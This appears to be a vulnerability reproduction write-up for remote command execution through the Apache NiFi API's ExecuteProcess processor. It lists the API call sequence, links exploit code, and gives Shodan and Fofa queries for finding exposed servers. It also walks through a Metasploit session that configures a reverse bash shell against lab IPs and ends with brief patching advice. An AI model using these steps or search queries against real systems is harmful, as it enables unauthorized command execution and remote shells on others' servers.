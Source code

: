 # Apache NiFi Processor RCE (Oct 3 2020)
Apache NiFi is a software project to automate the flow of data between software systems.  
This module uses the NiFi API to create an ExecuteProcess processor that will execute OS commands. The API must be unsecured (or credentials provided) and the ExecuteProcess processor must be available. An ExecuteProcessor processor is created then is configured with the payload and started. The processor is then stopped and deleted.

API Executing Process: https://nifi.apache.org/docs/nifi-docs/components/org.apache.nifi/nifi-standard-nar/1.12.1/org.apache.nifi.processors.standard.ExecuteProcess/  

Vulnerable architectures: **x86, x64**  
Vulnerable platforms: **Linux, OSX, Unix, Windows**  
Vulnerable protocols: **http, https**  

**Please be aware that this exploit leaves signs of a compromise in a log file (Example: SQL injection data found in HTTP log) and modifies some configuration setting on the target machine, this is not a guide on how to exploit others, this is a guide on how to reproduce the vulnerability and how to fix it.**  

Python Raw Exploit: https://raw.githubusercontent.com/imjdl/Apache-NiFi-Api-RCE/master/exp.py  

MetaSploit Exploit: https://dl.packetstormsecurity.net/2011-exploits/apache_nifi_processor_rce.rb.txt  
MetaSploit Linux Default Payload: **cmd/unix/reverse_bash**  
MetaSploit Windows Default Payload: **cmd/windows/reverse_powershell**  

Shodan Query: `title:"NiFi"`  
Fofa Query: `title=="NiFi"`  

# How does the Exploit work
## GET /nifi-api/access/config: Used to check whether the target is running NiFi and whether authentication is required.  
Example Output:
<pre>
{
    "config": {
	    "supportsLogin": true
	}
}</pre>

## POST /nifi-api/access/token: Used to obtain an access token using supplied credentials (if authentication is required).  
Content-Type: **application/x-www-form-urlencoded**  
HTTP Parameters: **username, password**  
| Status code  | Description |
|---|---|
| 200	| Successful operation. |
| 400	|	NiFi was unable to complete the request because it was invalid. The request should not be retried without modification. |
| 403	|	Client is not authorized to make this request. |
| 409	|	Unable to create access token because NiFi is not in the appropriate state. (i.e. may not be configured to support username/password login. |
| 500	|	Unable to create access token because an unexpected error occurred. |  

## GET /nifi-api/process-groups/root: Used to obtain the ID of the root process group.  
Example Output:
<pre>
{
    "revision": {REDACTED},
    "id": "value",
    "uri": "value",
    "position": {REDACTED},
    "permissions": {REDACTED},
    "bulletins": [{REDACTED}],
    "disconnectedNodeAcknowledged": true,
    "component": {REDACTED},
    "status": {REDACTED},
    "versionedFlowSnapshot": {REDACTED},
    "runningCount": 0,
    "stoppedCount": 0,
    "invalidCount": 0,
    "disabledCount": 0,
    "activeRemotePortCount": 0,
    "inactiveRemotePortCount": 0,
    "versionedFlowState": "value",
    "upToDateCount": 0,
    "locallyModifiedCount": 0,
    "staleCount": 0,
    "locallyModifiedAndStaleCount": 0,
    "syncFailureCount": 0,
    "localInputPortCount": 0,
    "localOutputPortCount": 0,
    "publicInputPortCount": 0,
    "publicOutputPortCount": 0,
    "parameterContext": {REDACTED},
    "inputPortCount": 0,
    "outputPortCount": 0
}
</pre>
## POST /nifi-api/process-groups/\<ROOT-PROCESSOR-GROUP-ID\>/processors: Used to create an ExecuteProcess processor in the root group.  
Content Type: **application/json**  
## PUT /nifi-api/processors/\<NEW-PROCESSOR-ID\>: Used to configure the new ExecuteProcess processor and run the OS command.
## PUT /nifi-api/processors/\<NEW-PROCESSOR-ID\>/run-status: Used to stop the new ExecuteProcess processor prior to deletion.  
## DELETE /nifi-api/processors/\<NEW-PROCESSOR-ID\>/threads: Used to terminate threads in case stopping failed.
## DELETE /nifi-api/processors/\<NEW-PROCESSOR-ID\>: Used to delete the processor.

## Using apache_nifi_processor_rce's Exploit
<pre>msf6 > use exploit/multi/http/apache_nifi_processor_rce
[*] Using configured payload cmd/unix/reverse_bash</pre>
## Local IP for Reverse Shell Connection
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > set LHOST 192.168.60.7
LHOST => 192.168.60.7</pre>
## Local Port for Reverse Shell Connection
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > set LPORT 4444
LPORT => 4444</pre>
## Remote IP for Exploit Execution
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > set RHOST 192.168.60.57
RHOST => 192.168.60.57</pre>
## Remote Port for Exploit Execution
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > set RPORT 8080
RPORT => 8080</pre>
## Checking Current Exploit Options
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > show options</pre>
![msf1](https://user-images.githubusercontent.com/94451745/149518743-e2ad0802-819a-4037-9798-8422f0c236c4.png)
## Running Exploit
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > run</pre>
![msf2](https://user-images.githubusercontent.com/94451745/149520071-97c27099-82df-493b-9ead-a5a96afcc29b.png)
## Vulnerability patching
Upgrade to the latest version, add/change current credentials and setup an IP whitelist in your current firewall settings.
